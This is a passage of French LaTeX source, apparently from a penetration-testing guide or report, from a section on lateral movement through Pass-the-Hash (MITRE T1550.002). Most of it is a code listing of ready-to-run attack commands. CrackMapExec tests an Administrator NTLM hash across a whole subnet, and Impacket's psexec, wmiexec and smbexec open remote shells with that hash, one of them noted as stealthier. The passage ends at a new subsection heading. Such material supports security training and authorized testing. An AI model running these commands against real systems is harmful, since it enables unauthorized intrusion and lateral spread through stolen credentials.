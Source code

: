 \section{Mouvement Latéral}
\label{sec:lateral_movement}

\subsection{Pass-the-Hash (PtH)}
\label{subsec:pth}

Le hash  peut être utilisé directement pour s'authentifier
sur un service ,  ou , sans connaître
le mot de passe en clair. \textbf{MITRE T1550.002.}

\begin{lstlisting}[language=bash, caption={Pass-the-Hash, techniques multiples}]
# CrackMapExec, tester le hash sur tout le réseau
crackmapexec smb 192.168.10.0/24 \
             -u Administrator \
             -H "8f81ee5558e2d1245a26f9339e9b9b93" \
             --continue-on-success

# Impacket psexec.py, shell distant via PtH
psexec.py -hashes :8f81ee5558e2d1245a26f9339e9b9b93 \
          Administrator@192.168.10.5

# Impacket wmiexec.py, plus furtif (pas de service installé)
wmiexec.py -hashes :8f81ee5558e2d1245a26f9339e9b9b93 \
           Administrator@192.168.10.5

# Impacket smbexec.py, utilise le partage ADMIN$
smbexec.py -hashes :8f81ee5558e2d1245a26f9339e9b9b93 \
           Administrator@192.168.10.5
\end{lstlisting}

\subsection{Exécution à Distance, WMI et WinRM}
\label{subsec:remote_exec}

